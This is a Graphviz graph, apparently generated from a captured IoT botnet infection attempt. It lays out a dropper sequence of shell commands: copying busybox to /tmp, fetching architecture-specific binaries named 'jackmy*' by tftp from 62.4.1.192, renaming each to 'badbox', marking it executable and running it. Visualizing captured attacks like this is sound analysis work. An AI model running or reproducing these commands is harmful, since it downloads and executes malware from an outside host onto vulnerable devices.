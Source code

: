 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
112 [label="cd /tmp "];
112 -> 112
6 [label="tftp -r jackmymips -g 62.4.1.192 "];
6 -> 8 [label=";,"];
8 [label="cat jackmymips badbox "];
8 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
18 [label="tftp -r jackmymipsel -g 62.4.1.192 "];
18 -> 20 [label=";,"];
20 [label="cat jackmymipsel badbox "];
20 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
30 [label="tftp -r jackmysh4 -g 62.4.1.192 "];
30 -> 32 [label=";,"];
32 [label="cat jackmysh4 badbox "];
32 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
42 [label="tftp -r jackmyx86 -g 62.4.1.192 "];
42 -> 44 [label=";,"];
44 [label="cat jackmyx86 badbox "];
44 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
54 [label="tftp -r jackmyi686 -g 62.4.1.192 "];
54 -> 56 [label=";,"];
56 [label="cat jackmyi686 badbox "];
56 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
66 [label="tftp -r jackmypowerpc -g 62.4.1.192 "];
66 -> 68 [label=";,"];
68 [label="cat jackmypowerpc badbox "];
68 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
78 [label="tftp -r jackmyi586 -g 62.4.1.192 "];
78 -> 80 [label=";,"];
80 [label="cat jackmyi586 badbox "];
80 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
90 [label="tftp -r jackmym86k -g 62.4.1.192 "];
90 -> 92 [label=";,"];
92 [label="cat jackmym86k badbox "];
92 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
102 [label="tftp -r jackmyarmv4 -g 62.4.1.192 "];
102 -> 104 [label=";,"];
104 [label="cat jackmyarmv4 badbox "];
104 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="tftp -r jackmyarmv5 -g 62.4.1.192 "];
114 -> 116 [label=";,"];
116 [label="cat jackmyarmv5 badbox "];
116 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
}
